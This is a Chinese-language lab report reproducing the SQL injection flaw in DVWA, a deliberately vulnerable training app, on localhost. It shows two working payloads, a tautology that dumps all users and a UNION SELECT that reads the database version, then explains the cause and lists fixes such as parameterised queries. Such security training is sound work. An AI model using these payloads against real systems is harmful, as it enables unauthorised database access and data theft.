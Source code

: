 # 🧪 DVWA SQL 注入（SQLi）漏洞复现报告

> 本报告复现了 DVWA 中的 SQL 注入漏洞，通过构造恶意 SQL 语句获取数据库信息，演示其攻击原理与危害，并提出修复建议。

---

## 🧾 一、实验信息

- 📅 实验时间：2025 年 7 月 9 日  
- 💻 实验系统：Kali Linux（物理机）  
- 🌐 靶场平台：DVWA（Damn Vulnerable Web Application）  
- 🔒 漏洞类型：SQL 注入（SQL Injection）  
- 🔧 难度设置：Low

---

## 📌 二、漏洞页面路径

```text
http://localhost/dvwa/vulnerabilities/sqli/
```

该页面存在用户 ID 查询功能，输入框未对用户输入进行过滤。

## 🧪 三、漏洞复现过程

### 1️⃣ 正常请求示例：

输入：

```
1
```

返回：

```
First name: admin
Surname: admin
```

### 2️⃣ 注入测试 payload：

```
1' or '1'='1
```

✅ 效果：返回多个用户信息，证明注入成功。

📸 截图见下文：`screenshots/sqli_success.png`

![SQLi漏洞](../screenshots/sqli_success.png)

### 3️⃣ 构造信息泄露型 payload（获取数据库版本）：

```
1' union select 1, @@version #
```

✅ 效果：可回显数据库版本信息。

📸 截图：`screenshots/db_dump.png`

![SQLi信息泄露](../screenshots/db_dump.png)

## 💡 四、漏洞原理分析

SQL 注入是由于程序直接将用户输入拼接进 SQL 查询语句，攻击者可构造恶意语句破坏原有逻辑，从而读取、修改、删除数据库中的数据。

## 🎯 五、危害评估

- 获取用户登录信息、密码 hash
- 绕过身份验证
- 删库、数据泄露
- 可作为进一步提权与持久化入口

## 🛡 六、修复建议

- 使用 **预处理语句 / 参数化查询**（如 PDO、mysqli）
- 严格验证与过滤用户输入（白名单机制）
- 错误信息隐藏，防止信息泄露
- 对于返回内容使用 `htmlspecialchars` 转义

## 📚 七、参考链接

- [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [DVWA GitHub](https://github.com/digininja/DVWA)

